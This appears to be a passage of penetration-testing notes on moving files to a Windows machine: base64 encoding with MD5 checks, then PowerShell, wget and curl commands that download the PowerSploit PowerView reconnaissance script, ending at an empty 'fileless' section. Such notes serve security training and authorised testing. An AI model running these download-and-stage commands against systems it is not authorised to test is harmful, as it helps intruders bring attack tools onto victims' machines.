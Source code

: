 ### Copying Using Base64

Verify the MD5 hash of the target file:

```bash
garffff@gareth:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
gareth@gareth:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```powershell-session
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Web Downloads

Malicious files can be detected by Defender:

```powershell-session
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

### Web Downloads - Fileless

```bash

```

